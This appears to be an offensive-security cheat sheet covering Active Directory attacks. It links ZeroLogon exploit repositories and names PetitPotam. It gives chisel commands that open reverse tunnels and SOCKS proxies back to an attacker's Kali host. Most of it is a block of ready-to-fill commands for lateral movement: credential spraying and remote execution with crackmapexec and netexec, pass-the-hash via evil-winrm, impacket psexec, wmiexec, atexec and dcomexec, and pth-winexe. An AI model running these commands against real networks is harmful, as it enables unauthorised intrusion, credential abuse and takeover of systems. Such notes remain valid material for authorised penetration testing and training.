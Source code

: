 ## ZeroLogon
- https://github.com/dirkjanm/CVE-2020-1472
- https://github.com/SecuraBV/CVE-2020-1472

## PetitPotam
- PetitPotam.exe and PetitPotam.py

## Port Forward
- chisel server -p 443 --reverse --socks5 (kali)
- chisel client 192.168.119.248:443 R:3306:localhost:3306 (target)

## Pivoting / Tunneling (do -sT on nmap)
- chisel server -p 443 --reverse --socks5 (kali)
- chisel client 192.168.119.248:443 R:socks (target)

## Lateral Movement
```
for /L %i in (0,1,255) do ping -n 1 -w 250 192.168.2.%i >> ip.txt && type ip.txt | select string Reply
arp -a
crackmapexec smb <ip> -u <user> -p <password> -L
crackmapexec smb <ip> -u <user> -p <password> --shares
crackmapexec rdp <ip> -u <user> -p <password> -L
crackmapexec winrm <ip> -u <user> -p <password> -L
crackmapexec mssql <ip> -u <user> -p <password> -L
crackmapexec ssh <ip> -u <user> -p <password> -L
crackmapexec ftp <ip> -u <user> -p <password> -L
crackmapexec ldap <ip> -u <user> -p <password> -L
netexec wmi <ip> -u <user> -p <password> -L
netexec vnc <ip> -u <user> -p <password> -L
crackmapexec smb <ip> -u <user> -p <pass> -M spider_plus
crackmapexec smb <ip> -u <user> -H <hash> -M spider_plus
crackmapexec smb <ip> -u <user> -p <password> -X 'whoami'
crackmapexec smb <ip> -u <user> -H <hash> -X 'whoami'
winrs -remote:<computer name> -u:<user> -p:<password> <command>
winrs -r:<computer name> <command> (use cmd to get shell)
$sess = New-PSSession -ComputerName <name>
Enter-PSSession -ComputerName <name>
Enter-PSSession -ComputerName <name> -Credential <credntials>
Enter-PSSession -Session <session var>
Invoke-Command -ScriptBlock {whoami} -Session $sess
Invoke-Command -ComputerName <name> -ScriptBlock {whoami}
Invoke-Command -ComputerName (Get-Content <list of computer names> -ScriptBlock{whoami})
Invoke-Command -ComputerName <name> -FilePath <filename>
Invoke-Command  -FilePath <filename> -Session <session var>
netexec smb <ip> -u username -p password -X "command to execute"
evil-winrm -H <hash> -u <user> -i <ip>
evil-winrm -u <user> -p <password> -i <ip>
impacket-psexec <domain>/<user>:<password>@<ip>
impacket-wmiexec <domain>/<user>:<password>@<ip>
impacket-atexec <domain>/<user>:<password>@<ip>
psexec.py <user>:@<IP> -hashes <NTLM-hash>
evil-winrm -u <domain>/<user> -p <password> -i <ip>
evil-winrm -u <domain>/<user> -H <hash> -i <ip>
impacket-wmiexec <domain>/<user>:<password>@<ip>
impacket-atexec <domain>/<user>:<password>@<ip>
impacket-atexec -hashes <hash> <domain>/<user>@<ip>
impacket-dcomexec -object <MMC20 or ShellWindows or ShellBrowserWindow> <domain>/<user>:<password>@<ip>
pth-winexe -U <username>%:<hash> //<ip> cmd.exe
```